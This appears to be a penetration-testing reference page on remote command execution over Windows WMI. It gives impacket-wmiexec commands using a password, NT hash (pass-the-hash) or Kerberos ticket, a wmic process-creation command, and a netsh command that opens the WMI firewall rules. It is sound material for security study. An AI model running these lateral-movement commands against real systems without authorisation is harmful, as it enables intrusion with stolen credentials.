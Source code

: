 ```yaml
---
label: MS-WMI
subLabel: (WmiExec)
---
```


# MS-WMI: Windows Management Instrumentation Remote Protocol

> **Requirements**
>
> * Credentials (password, NT hash, Kerberos TGT) of a member of the local **Administrators** group on the target machine.
> * WMI allowed on firewall (by default: allowed on server, filtered on client machine).

WMI protocol is commonly used for remote machine administration tasks. WMI is accessed via negotiated TCP port (not a named pipe). It is separately handled by firewall rule. Logon via WMI is of the **Network type** (no reusable credentials).

Linux:

```bash
# Using password
impacket-wmiexec $domain/$user:$password@$host

# Using NT hash
impacket-wmiexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-wmiexec $hostname -k -no-pass -dc-ip $dc_ip
```

Windows:

> **IMPORTANT**: Built-in `wmic` has not been available since Windows 11.

WMI is very powerful. It can manage processes, services and scheduled tasks. Here I will show only a very basic use to create a process on a remote host. Note that firing this command will not return output. We need to save the output to a file and download it through another channel (e.g. via SMB).

```powershell
# Using password
wmic /user:$domain\$user /password:$password /node:$host process call create "cmd.exe /c whoami.exe > C:\output.txt"

# Using Kerberos TGT (in-memory)
wmic /node:$host process call create $command
```

Keep in mind that there is a lof of techniques for executing code on a remote host using WMI and new ones are being discovered all the time.

## Enable WMI

```powershell
# Enable firewall rules
netsh advfirewall firewall set rule group="windows management instrumentation (wmi)" new enable=yes
```

## Resources

* [Microsoft, _User Account Control and WMI_](https://learn.microsoft.com/en-us/windows/win32/wmisdk/user-account-control-and-wmi)
* [Crowdstrike, _Defense Against the Lateral Arts: Detecting and Preventing Impacket's Wmiexec_](https://www.crowdstrike.com/blog/how-to-detect-and-prevent-impackets-wmiexec/)
* [Philip Tsukerman, _Expanding Your WMI Lateral Movement Arsenal_](https://www.youtube.com/watch?v=RRc_3c5diC4)
* [Raj Chandel, _Lateral Movement: WMI_](https://www.hackingarticles.in/lateral-movement-wmi/)
